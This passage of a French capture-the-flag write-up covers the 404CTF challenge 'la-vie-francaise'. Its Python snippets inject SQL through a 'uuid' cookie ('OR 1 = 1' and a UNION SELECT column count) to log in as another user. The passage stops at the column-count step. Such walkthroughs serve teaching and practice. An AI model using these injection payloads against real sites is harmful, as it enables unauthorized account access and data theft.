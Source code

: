 ![Requête de connexion au site](./images//login.png)

<br>

### Test de l'injection

On peut commencer par tester l'injection en **python** :

```python
from requests import Session

URL = "https://la-vie-francaise.challenges.404ctf.fr"
client = Session()

client.cookies.set('uuid', "' OR 1 = 1 #")

print(client.get(f"{URL}/account", allow_redirects=False).text)
```

Réponse :
```html
<h3>Bienvenue  jacquesrival  !</h3>
```

On est bien connecté en tant que **`jacquesrival`** !

<br>

### Déterminer le nombre de colonne pour l'union select

En testant d'abord avec 1 colonne NULL, puis 2, puis 3, on détermine le nombre de colonne utilisée dans la requête : 

```python
from requests import Session

URL = "https://la-vie-francaise.challenges.404ctf.fr"
client = Session()

client.cookies.set('uuid', "' OR 1 = 1 UNION SELECT NULL, NULL, NULL #")

print(client.get(f"{URL}/account", allow_redirects=False).text)
```

Réponse :
```html
```
